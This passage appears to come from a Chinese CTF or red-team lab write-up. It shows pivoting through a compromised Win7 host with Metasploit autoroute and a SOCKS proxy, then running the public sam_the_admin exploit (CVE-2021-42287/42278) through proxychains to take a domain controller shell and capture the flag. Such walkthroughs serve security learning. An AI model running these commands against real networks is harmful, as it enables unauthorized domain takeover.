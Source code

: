 ![](https://s2.loli.net/2021/12/25/grtlYL3HQ4JcWwU.png)

定位到域控到域控 `IP` 为 `10.0.0.12` ，接下来直接尝试最近爆出的两个域内核武器漏洞：CVE-2021-42287、CVE-2021-42278

**具体：**[只需要一个域用户即可拿到 DC 权限（CVE-2021-42287 and CVE-2021-42278）](https://mp.weixin.qq.com/s?__biz=MzkzNzMxNDc5Mg==&mid=2247483681&idx=1&sn=5757667e1a2f812244fe17b50ce46c27&chksm=c29011a6f5e798b089099860b7754babafd39154911a64a53669da882df6dec5118cf7942414&scene=21#wechat_redirect)

### MSF流量转发

我们先将`win7`的流量代理出来，然后在`Kali`中实现域内提权

先添加路由：

```
run autoroute -s 10.0.0.7/24
```

![](https://s2.loli.net/2021/12/25/rQkhlwGEZcsm9zK.png)

使用 MSF 添加了一个 Socks：

```
background
use auxiliary/server/socks_proxy
run
```

![](https://s2.loli.net/2021/12/25/GHaZPjcoNR8Dwnu.png)

接着修改`proxychain`配置文件

```
vim /etc/proxychains4.conf
```

![](https://s2.loli.net/2021/12/25/nkmBMlRVItbWEsh.png)

直接使用[脚本](https://github.com/WazeHell/sam-the-admin)利用漏洞进行域内提权

```
proxychains python3 sam_the_admin.py "redteam/root:Red12345" -dc-ip 10.0.0.12 -shell
```

![](https://s2.loli.net/2021/12/25/sojU6f8SKgOC7vb.png)

最后拿到最终的flag

![](https://s2.loli.net/2021/12/25/TktQN23dHpwsiJh.png)
